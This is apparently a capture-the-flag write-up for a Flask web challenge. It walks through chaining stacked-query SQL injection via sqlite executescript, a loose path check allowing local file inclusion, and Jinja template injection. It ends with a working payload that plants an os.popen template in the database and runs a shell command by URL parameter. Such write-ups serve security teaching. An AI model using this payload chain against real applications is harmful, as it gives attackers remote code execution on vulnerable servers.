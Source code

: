 # Super Guided Web

Can you make use of all three techniques you have learnt to exploit this app?

(The error on /guides/view/1 is expected)

---

## Analysis

```py
@app.route("/guides")
def guide():
    uid = request.cookies.get("uid")
    if not uid or not os.path.exists(f"./content/databases/{uid}.db"):
        return redirect("/")
    if not safe_path(f"./content/databases/{uid}.db", "./content/databases"):
        return "Die hacker!"
    search = request.args.get("search")
    results = []
    conn = sqlite3.connect(f"./content/databases/{uid}.db")
    c = conn.cursor()
    try:
        c.execute(f"select * from guides where name like '%{search}%'")
    except Exception as e:
        c.executescript(f"select * from guides where name like '%{search}%'")
    for row in c.fetchall():
        result = {}
        result["name"] = row[1]
        result["id"] = row[0]
        results.append(result)
    conn.commit()
    conn.close()
    return jsonify(results)
```

The endpoint accepts a ?search parameter which we can use to search for guides.
SQLi is obvious here, but what is more interesting is .executescript. .execute
only allows me to execute 1 query at a time, which removes the possibility of
doing stuff like insert or update queries. However, .executescript allows me to
execute more than 1 query at a time, which I can abuse by terminating the
current query with `;`.

Also, as a side note: each user has a separate database to exploit (as indicated
by the uid), which hints towards editing the database as part of the exploit. 

```py
def safe_path(path, safe_dir="./content"):
    safe_dir = os.path.realpath(safe_dir)
    if os.path.commonprefix((os.path.realpath(path),safe_dir)) != safe_dir:
        return False
    return True

@app.route("/guides/view/<id>")
def view_guide(id):
    uid = request.cookies.get("uid")
    if not uid or not os.path.exists(f"./content/databases/{uid}.db"):
        return redirect("/")
    if not safe_path(f"./content/databases/{uid}.db", "./content/databases"):
        return "Die hacker!"
    conn = sqlite3.connect(f"./content/databases/{uid}.db")
    c = conn.cursor()
    id = int(id)
    results = list(c.execute(f"select path from guides where id = {id}"))
    conn.commit()
    conn.close()
    if len(results) != 1:
        return "Not found"
    if id > 3:
        print(uid, id, results)

    path = results[0][0]

    if not safe_path(f"./content/guides/{path}", "./content"):
        return "Die smarter hacker!"
        
    try:
        contents = open(f"./content/guides/{path}","rb").read()
        # Strip out unicode characters
        contents = bytes(x for x in contents if x < 128)
        return render_template_string(contents.decode("ascii"))
    except Exception as e:
        return f"There was an error processing your request: {e}"
```

Here I have my SSTI at `render_template_string`. The program reads a file based
on the path associated with the requested ID, and passes it into
render_template_string. There seems to be some weird check to strip characters
larger than 127 (although 0-31 isn't stripped which kinda defeats the purpose of
stripping in the first place).

Also, the program keeps checking if the path is safe (ie. in the allowed
./content directory). Note that in the second check, it only checks for
./content instead of ./content/guides, so it means that I actually can have
some sort of LFI within the ./content directory!

## Exploit

I've identified our 3 vulnerabilities already. How should I chain them together?

First, my LFI is only possible from the database, because the path is being read
from the database. Hence, I should probably use our insert-based SQLi to fake a
new path to some file.

Second, my LFI is limited to the ./content directory, so it's not possible to
read files outside of that. Hence that eliminates the possibility of simply
reading some logs/env (which usually would have worked on similar LFI2RCE
challenges like PHP).

Third, if I want to exploit the SSTI, I need to write to some file on the system
since that's the only way we can pass input into `render_template_string`. The
only effective write I have is to the database (via SQLi).

Being familiar with SQLite, I remembered that most of its contents are actually
stored as plaintext (in some form). For example, if I were to `strings` an
SQLite database, I would see all my table and column names, as well as the data
it contains. Hence, if I were to LFI to the database, technically I can exploit
my SSTI!

Here is the general exploit path:

1. Insert a new row into the `guides` table. 
    1. Set `path` to the path to our database.
    2. Set `name` to the SSTI payload. Since it's a bit slow to do this
       iteratively (which I usually have to do using the slow but versatile
       subclasses payload), I went for the quick cycler/joiner/namespace
       payload, which allows me to get RCE in one shot (provided those objects
       are available in the Jinja env).
    3. If you want to make exploitation faster/more fun, make your command
       dynamic by using request.args or request.cookies.
2. Navigate to the newly-injected row which should be at ID 4. This will trigger
   the SSTI and we can get our flag.

Final payload:

`'; insert into guides (name, path) values ("{{ cycler.__init__.__globals__.os.popen(request.args.cmd).read() }}", "../databases/<uid>.db") -- `

`/guides/view/4?cmd=cat%20flag.txt`

![One of the cooler challenges](./images/flag.png)
